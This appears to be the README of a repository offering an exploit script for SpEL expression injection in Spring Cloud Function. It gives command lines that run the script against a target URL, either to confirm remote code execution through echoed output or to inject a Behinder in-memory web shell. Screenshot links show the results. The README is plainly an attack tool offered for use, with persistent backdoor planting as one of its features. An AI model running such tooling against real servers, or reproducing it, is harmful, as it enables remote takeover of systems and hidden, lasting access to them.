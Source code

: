 # Spring-cloud-function-SpEL-RCE
针对Spring-cloud-function-SpEL表达式注入进行回显和内存马注入的exp
# 使用
回显探测

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="790" alt="image" src="https://user-images.githubusercontent.com/38367493/165485812-a5e12b13-ce52-4b1b-bd76-17d1910bb602.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

